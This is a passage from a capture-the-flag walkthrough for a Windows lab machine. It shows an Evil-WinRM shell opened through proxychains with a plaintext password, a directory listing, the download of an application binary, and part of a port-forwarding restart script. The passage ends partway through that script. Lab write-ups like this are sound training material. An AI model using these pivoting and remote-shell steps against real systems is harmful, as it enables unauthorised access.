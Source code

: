 
Proxychains will allow the `Evil-WinRM` connection:

    
    
    oxdf@hacky$ proxychains evil-winrm -i 127.0.0.1 -u development -p 'AMl.q2DHp?2.C/V0kNFU'
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:5985  ...  OK
    *Evil-WinRM* PS C:\Users\development\Documents>
    

## Shell as root

### Enumeration

I finally have access to `C:\DevApp`:

    
    
    *Evil-WinRM* PS C:\devapp> ls
    
        Directory: C:\devapp
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2021   5:02 AM          60026 MyFirstApp.exe
    -a----         9/14/2021  10:57 AM            636 restart.ps1
    

I’ll download the binary:

    
    
    *Evil-WinRM* PS C:\devapp> download MyFirstApp.exe
    Info: Downloading C:/devapp/MyFirstApp.exe to ./MyFirstApp.exe
    
    Info: Download successful!
    

There’s also this `restart.ps1` script here:

    
    
    # Restart app every 3 mins to avoid crashes
    while($true) {
      # Delete existing forwards
      cmd /c "netsh interface portproxy delete v4tov4 listenport=9999 listenaddress=0.0.0.0"
      # Spawn app
      $proc = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ("C:\DevApp\MyFirstApp.exe")
      sleep 2
      # Get random port
      $port = (Get-NetTCPConnection -OwningProcess $proc.ProcessId).LocalPort
      # Forward port to 9999
      cmd /c "netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=$port connectaddress=127.0.0.1"
      sleep 180